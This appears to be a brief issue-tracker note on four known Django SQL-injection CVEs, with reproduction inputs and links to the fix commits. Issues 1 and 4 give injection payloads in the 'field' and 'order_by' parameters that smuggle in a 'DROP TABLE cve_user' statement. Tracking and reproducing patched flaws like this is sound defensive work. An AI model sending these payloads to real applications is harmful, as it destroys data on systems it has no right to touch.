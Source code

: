 Issue 1: 

Reproduction: CVE-2022-28346: field=count" from cve_user group by cve_user.id;DROP TABLE cve_user;--     

Fix: https://github.com/django/django/commit/93cae5cb2f9a4ef1514cf1a41f714fef08005200 

 

 

Issue 2: 

Reproduction: CVE-2022-28347 same as above 

 

Issue 3: 

CVE-2022-34265  https://github.com/aeyesec/CVE-2022-34265 

Fix: https://github.com/django/django/commit/54eb8a374d5d98594b264e8ec22337819b37443c  

 

Issue 4: 

CVE-2021-35042  

Reproduction: order_by=cve_user.id);drop table cve_user; -- 

Fix: https://github.com/django/django/commit/a34a5f724c5d5adb2109374ba3989ebb7b11f81f#diff-fd2300283d1546e36141373b0621f142ed871e3e8856e07efe5a22ecc38ad620  